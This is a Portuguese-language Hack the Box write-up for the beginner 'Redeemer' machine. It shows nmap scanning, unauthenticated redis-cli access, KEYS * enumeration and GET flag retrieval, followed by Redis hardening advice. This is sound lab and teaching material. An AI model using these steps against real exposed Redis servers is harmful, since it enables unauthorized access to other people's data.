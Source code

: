 ## HTB: Redeemer
### 📋 Informações da Máquina

 - Plataforma: Hack the Box
 - Máquina: Redeemer
 - Dificuldade: Muito Fácil
 - Ip: 10.129.35.253


## ⚙️ 0. Resumo
Essa máquina ainda é muito fácil, pois estou no starting point do hack the box, essa maquina envolve a exploração da falta de autenticação de um serviço exposto redis exposto na rede

### ⚠️ 0.1 VULNERABILIDADES IDENTIFICADAS

- Serviço Redis exposto na internet

- Ausência total de autenticação

- Porta 6379 acessível publicamente

- Versão desatualizada (5.0.7)


## 🔍 1. ENUMERAÇÃO
### 1.1 Varredura de Portas

Como já tinha informação sobre o serviço Redis, fiz um scan direto na porta padrão:

```bash
nmap -sV -p 6379 10.129.35.253
```

📊 Resultado:

```bash
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value 5.0.7
```  

✅ Conclusão: Serviço Redis encontrado e exposto publicamente.


## ⚡ 2. EXPLORAÇÃO
2.1 Conexão com o Redis

```bash
redis-cli -h 10.129.35.253
```

### 2.2 Enumeração de Dados

Dentro do Redis, usei comandos para explorar o banco:
redis
```bash
KEYS *
```

🎯 Resultado:

```bash
1) "flag"
2) "stor"
3) "numb"
4) "temp"
```

### 2.3 Captura da Flag
Usei um comando pra extrair o conteudo da key "flag"
```bash
GET flag
```

🏴 Flag Capturada:
```bash
flag{...}
```

## 🔎 3. PÓS-EXPLORAÇÃO
### 3.1 Análise de Configuração

Verifiquei as configurações do serviço:
```bash
CONFIG GET requirepass
CONFIG GET bind
INFO server
```

📝 Configurações Perigosas Encontradas:

  ❌ Sem senha (requirepass vazio)

  🌐 Bind em todas interfaces (0.0.0.0)

  🔓 Modo protegido desativado

### 3.2 Dados Adicionais Encontrados
```bash
GET stor
GET numb  
GET temp
```

## ⚠️ VULNERABILIDADES IDENTIFICADAS

- Serviço Redis exposto na internet

- Ausência total de autenticação

- Porta 6379 acessível publicamente

- Versão desatualizada (5.0.7)

## 🛡️ 4. RECOMENDAÇÕES DE SEGURANÇA

- 1. Configurar senha forte
echo "requirepass Su@SenhaF0rt3!2024" >> /etc/redis/redis.conf

- 2. Restringir acesso
echo "bind 127.0.0.1" >> /etc/redis/redis.conf

- 3. Ativar modo protegido
echo "protected-mode yes" >> /etc/redis/redis.conf

- 4. Reiniciar serviço
systemctl restart redis-server


## 🎯 5. CONCLUSÃO
#### Resumo do Ataque:

- Complexidade: Baixa

- Impacto: Alto (dados expostos)

#### Lições Aprendidas:

  1. Nunca exponha serviços de banco diretamente na internet

  2. Autenticação é OBRIGATÓRIA para qualquer serviço

  3. Firewalls previnem exposição acidental

  4. Versões atualizadas têm menos vulnerabilidades

#### Reflexão Pessoal:

"Esta máquina reforçou que a falta de autenticação é um dos erros mais comuns e perigosos. Senhas fortes são essenciais, mas a prevenção começa na arquitetura - serviços internos não devem ser expostos publicamente!"

✅ Máquina Finalizada com Sucesso!

Write-up por: Luiz A. | Hack The Box - Redeemer | 15/10/25
